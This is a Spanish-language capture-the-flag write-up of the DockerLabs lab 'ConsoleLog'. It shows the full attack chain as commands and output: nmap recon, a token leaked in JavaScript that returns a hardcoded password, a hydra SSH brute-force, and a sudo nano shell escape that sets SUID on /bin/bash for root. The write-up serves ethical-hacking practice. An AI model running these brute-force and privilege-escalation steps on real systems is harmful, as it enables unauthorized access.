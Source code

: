```yaml
---
title: ConsoleLog
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-consolelog/consolelog_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - ssh
  - data_leaks
  - java_script
  - fuzzing_web
  - password_attacks
  - sudo_abuse
  - suid
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ ping -c 1 172.17.0.03
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.032 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 80/open/tcp//http///, 3000/open/tcp//ppp///, 5000/open/tcp//upnp///	Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ nmap -sCV -vvv -p80,3000,5000 -oN nmap/nmap2 172.17.0.3
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
3000/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Error
5000/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f837107e16a227b83a6e2c16357d14fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFJIePZQO0+XTgRiD8dhTqAlZt67hcjqMdzF07uhb1UjckCZ085MdTFxg46SKaJRwi1OiB8GT+SeIlFbvm99Xkc=
|   256 cd11106460e8bfd9a4f48eae3bd8e18d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESd2Y3i6yTEAk2fPflmI3fA4pNsVZub38LafzPteZlz
MAC Address: 5A:62:7A:E6:4C:58 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.61], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.61 (Debian)], IP[172.17.0.3], Script, Title[Mi Sitio]
```

---
## Web Analysis

Accedo al sitio principal y visualizo una página básica con un título y un botón marcado como "Boton en fase beta".

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_1.png)

Inspeccionando el botón, identifico que ejecuta la función `autenticate()` definida en el archivo `authentication.js`.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_2.png)

Revisando su contenido, descubro que imprime un mensaje de depuración que expone el token requerido por el endpoint `/recurso/`.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_3.png)

Envio el token mediante una solicitud POST al puerto 3000 y obtengo como respuesta una cadena en texto plano que aparenta ser una contraseña.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ curl -X POST http://172.17.0.3:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'
lapassworddebackupmaschingonadetodas
```

Sin embargo, fuzzeando la web descubro el directorio abierto `/backend/`, el cual expone el archivo `server.js`.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
==> DIRECTORY: http://172.17.0.3/backend/
+ http://172.17.0.3/index.html (CODE:200|SIZE:234)
==> DIRECTORY: http://172.17.0.3/javascript/
```

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_4.png)

Dentro del script encuentro la implementación del endpoint `/recurso/`, confirmando que la contraseña se encuentra hardcodeada en el backend.

![](assets/img/dockerlabs-writeup-consolelog/consolelog1_5.png)

---
## Data Leak Exploitation

Utilizo la contraseña descubierta anteriormente para realizar un ataque de fuerza bruta sobre el servicio SSH expuesto en el puerto 5000.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ hydra -L /opt/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.3:5000 -t 40 -I
[5000][ssh] host: 172.17.0.3   login: lovely   password: lapassworddebackupmaschingonadetodas
```

El ataque resulta exitoso con el usuario `lovely` y accedo al sistema mediante SSH con las credenciales obtenidas.

```terminal
/home/kali/Documents/dockerlabs/consolelog:-$ ssh lovely@172.17.0.3 -p 5000 
lovely@172.17.0.3's password: lapassworddebackupmaschingonadetodas

lovely@413f463a3fce:~$ id
uid=1001(lovely) gid=1001(lovely) groups=1001(lovely),100(users)
```

---
## Privilege Escalation

```terminal
lovely@413f463a3fce:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
tester:x:1000:1000::/home/tester:/bin/bash
lovely:x:1001:1001:lovely,,,:/home/lovely:/bin/bash
```

Identifico que el usuario `lovely` tiene permisos de `sudo` sobre el binario `/usr/bin/nano` sin requerir contraseña.

```terminal
lovely@413f463a3fce:~$ sudo -l
Matching Defaults entries for lovely on 413f463a3fce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 413f463a3fce:
    (ALL) NOPASSWD: /usr/bin/nano
```

De acuerdo a [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo), `nano` ejecutado con `sudo` puede usarse para escalar privilegios, ya que no elimina los permisos elevados durante su ejecución.

Lanzo nano como superusuario.

```terminal
lovely@413f463a3fce:~$ sudo nano
```

Y ejecuto la siguiente secuencia para obtener una shell privilegiada

* `Ctrl + r`, `Ctrl + x`
* Command to execute: `reset; sh 1>&0 2>&0`
* `# chmod u+s /bin/bash`
* `# exit`

Salgo sin guardar cambios

* `Ctrl + x`, Save modifed buffer? `n`

Esto activa el bit SUID en `/bin/bash`.

{% include embed/video.html src='assets/img/dockerlabs-writeup-consolelog/consolelog1_6.webm' types='webm' title='Sudo Abuse' autoplay=true loop=true muted=true %}

Por ultimo, ejecuto `bash -p` para iniciar una shell con privilegios de `root`.

```terminal
lovely@413f463a3fce:~$ bash -p

bash-5.2# id
uid=1001(lovely) gid=1001(lovely) euid=0(root) groups=1001(lovely),100(users)
```

